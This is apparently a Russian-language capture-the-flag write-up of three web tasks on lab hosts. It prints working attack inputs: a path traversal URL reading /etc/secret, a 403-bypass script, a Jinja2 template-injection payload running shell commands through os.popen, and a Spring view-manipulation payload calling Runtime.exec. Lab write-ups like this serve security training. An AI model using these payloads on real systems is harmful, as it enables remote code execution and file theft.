 web 1

1. Проводим осмотр веб-приложения. И находим ссылку: ![Screenshot_2024-03-21_11_49_29](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/89ffc2c9-6dab-4ca0-b43c-ac2a543a2b67) Перейдя по ней, видим подсказку, что файл с флагом может находиться в директории etc/secret: ![Screenshot_2024-03-21_11_50_45](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/1dcf0c00-b9c7-4a70-8cfc-b424bb8773f1)

2. Чтобы скачать необходимый файл с сервера, воспользуемся уязвимостью "file inclusion". Введем в адресную строку: http://192.168.12.10:5001/download?file_type=/../../../../../../etc/secret. Скачивается нужный файл: ![Screenshot_2024-03-21_11_54_12](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/272ec935-ed57-40d3-9ebd-f3f918f99443)
В нем находится флаг: ![Screenshot_2024-03-21_11_55_59](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/40f75ce4-6e24-4d2c-989d-bb41cd7e3b82)





------------------------------------------------------

web3

1. При вводе данных сайт выдает ошибку: "403 Forbidden". Ее можно обойти с помощью скрипта Bypass-403: https://github.com/iamj0ker/bypass-403.

2. Для установки скрипта введем следующие команды в терминале:
	1) git clone https://github.com/iamj0ker/bypass-403
	2) cd bypass-403
	3) chmod +x bypass-403.sh
	
3. Введем команду, в которой укажем наш сайт и путь к файлу flag.txt: ./bypass-403.sh http://192.168.12.11:8001 flag

4. Программа выдает несколько адресов:![Screenshot_2024-03-21_10_14_41](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/5a1e2f9f-79a3-4636-a75c-9ee38b49566e) Выбираем один из адресов с наибольшим временем, например: http://192.168.12.11:8001//flag//, переходим по ссылке и получаем следующий результат:![Screenshot_2024-03-21_10_20_47](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3feedbef-f71d-434b-a1e7-2bfdbbe872b4)
 
5. Теперь посмотрим на исходный код сайта, а именно на файл "app.py". В строке 24 мы видим, что функции передается параметр "name". Функция выдает два результата в зависимости от полученных данных. Если имя не содержит запрещенных символов, то на экран выводится сообщение "привет <имя>", в противном случае: "Содержит запрещенные символы". ![Screenshot_2024-03-21_10_22_30](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2dfe648e-5648-4b61-8774-6593b7193ec3)


6. Попробуем передать функции параметр "name". Напишем в адресной строке браузера: http://192.168.12.11:8001//flag?name=abc. Получаем следующее:![Screenshot_2024-03-21_10_27_39](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3b0595e7-b42a-4994-ba1a-a94359557a73) Далее вместо "abc" напишем запрещенные символы: "mro". Видим следующее:![Screenshot_2024-03-21_10_31_20](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/f0d634dd-64ec-4aff-892b-1837dfc79207) На первый взгляд кажется, что функция работает корректно.

7. Вполне возможно, что сайт имеет уязвимость. С помощью SSTI (внедрения шаблонов на стороне сервера) попробуем что-нибудь достать с сервера. Введем в адресную строку вместо "mro" "{{2*22}}". На экране выдим рузультат математической операции:![Screenshot_2024-03-21_10_34_42](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/a7f98e6c-1b32-49f9-9d91-906c0030df57)
Сервер не заметил запрещенные символы и выполнил команду. Это и есть уязвимость.

8. Проверим, выведет ли сервер ID файлов, которые хранятся на нем. Откроем документацию на GitHub (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2) и найдем следующий пункт "Exploit the SSTI by calling os.popen().read()". Вместо "{{2*22}}" введем "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}". Получаем:![Screenshot_2024-03-21_10_42_32](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2b99527f-7580-4f0f-b02b-af9f7116badf) Сервер выдал ID файлов.

9. Если сервер вывел ID файлов, то он может вывести и содержимое файлов. Нам необходимо найти флаг, поэтому введем команду: http://192.168.12.11:8001//flag?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}; и получим флаг: ![Screenshot_2024-03-21_10_45_13](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/909398a7-b9c5-4673-8a77-6948c6060872)
 
web2

Используем Spring view manipulation(https://lohitaksh-nandan.gitbook.io/cheat-sheets/framework/spring/view-manipulation)

Введем команду http://192.168.12.13:8090/login?password=__${new%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22password%22).getInputStream()).next()}__::.x

Перезаходим на http://192.168.12.13:8090/login?password=password и вводим в поле пароля password 
Получаем флаг. Профит
